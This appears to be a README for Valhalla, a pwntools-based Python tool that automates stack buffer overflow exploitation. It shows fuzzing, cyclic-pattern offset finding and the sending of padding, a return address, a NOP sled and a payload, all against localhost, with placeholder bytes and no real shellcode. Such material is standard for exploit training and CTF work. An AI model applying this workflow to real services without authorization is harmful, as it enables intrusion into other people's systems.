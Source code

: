# Valhalla
Valhalla is a binary exploitation command-line tool allowing to make buffer overflow exploits faster and easier. It's written in python on the top of pwn lib.
This write up aims in showing an example of how to use Valhalla framework and write the less possible "boilerplate" code.

## Communication layer with the application
Valhalla relies on pwn lib to abstract the communication with the application to attack. By default, it will output on stdout, allowing unix redirections. With -H and -P options, you can specify an IP and a PORT to send data, and not bother to change anything else.

## Fuzzing
When dealing with buffer overflows, generally the first step is to check if we can crash the application by sending it data.
Valhalla fuzzing allows to send an increasing ammount of bytes. The first given argument is the number of repetitions we want to try. There are other parameters, to change the incrasing lenght added each time, or the byte value we are fuzzing with for example.
```console
odin@valhalla:~$ python valhalla.py -f 10 | ./application_to_attack
[+] Output set to stdout
[+] Fuzz mode
[+] 100 bytes ready to send. Press anything to break after or 'c' to not ask again
c
[+] Sending 100 bytes...
[+] Done

[+] Sending 200 bytes...
[+] Done

[+] Sending 300 bytes...
```
## Pattern searching
If the application is successfully crashed when fuzzing, and EIP register has been replaced by the fuzzed byte, then we have control over it.
Let's say we found a crash when fuzzing an ipplcation on 127.0.0.1:4444 with more or less 200 bytes. The next step is to use a specific pattern to find the exact offset needed to override EIP with our own return address. 

```console
odin@valhalla:~$ python valhalla.py -H 127.0.0.1 -P 4444 --pattern_create 300 
```
This time the application crash again, but instead of having just "A" in EIP, we have a part of the generated pattern, for example 0x61616178. Then we match it in order to have the exact offset.
```console
odin@valhalla:~$ python valhalla.py --pattern_offset 0x61616178
[+] Output set to 127.0.0.1:4444
[+] Pattern Offset Search mode
[+] Offset = 92

```

## Exploit
Now that we've got the offset, we can override eip with the value we want (the address of jmp esp that we found in the application or its library for example), and write our payload just after, attached to a NOP sled.
```console
odin@valhalla:~$ python valhalla.py -H 127.0.0.1 -P 4444 --exploit --offset 92 --ret "\xde\xad\xbe\xef" --nop 16 --payload "\xca\xfe\xba\xbe"
[+] Output set to 127.0.0.1:4444
[+] Opening connection to 127.0.0.1 on port 4444: Done
[+] Exploit mode
[+] 116 bytes ready to send. Press anything to break after or 'c' to not ask again
c
[+] Sending 116 bytes...
[+] Done
[*] Closed connection to 127.0.0.1 port 4444
```
```console
What is sent ?
offset | Bytes value
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000050 4141 4141 4141 4141 4141 4141 adde efbe
0000060 9090 9090 9090 9090 9090 9090 9090 9090
0000070 feca beba
```

## Exploit from yaml file
Offset, return, nop, and payload parameters can also be set in a yaml file for convenience and versionning
```console
odin@valhalla:~$ cat exploit_template.yaml
---
  offset: 10
  ret : \xbb\xbb\xbb\xbb
  nop: 16
  payload : \xff\xff\xff\xff
```
```console
odin@valhalla:~$ python valhalla.py -H 127.0.0.1 -P 4444 --yaml exploit_template.yaml
```

